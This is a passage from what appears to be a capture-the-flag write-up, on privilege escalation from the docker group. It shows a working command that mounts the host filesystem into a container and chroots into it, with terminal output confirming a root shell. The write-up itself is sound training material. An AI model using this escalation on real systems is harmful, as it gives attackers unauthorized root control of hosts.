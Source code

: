# Privilege Escalation

A quick check at GTFOBins tells us that we can break out from restricted environments if we are in the **docker** group. We are root and can basically do anything we want from here, including getting the last flags to complete the room.

```bash
# Getting root shell
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        3 years ago         15.8MB

r00t@ultratech-prod:~$ **docker run -v /:/mnt --rm -it bash chroot /mnt sh**
# whoami
root
```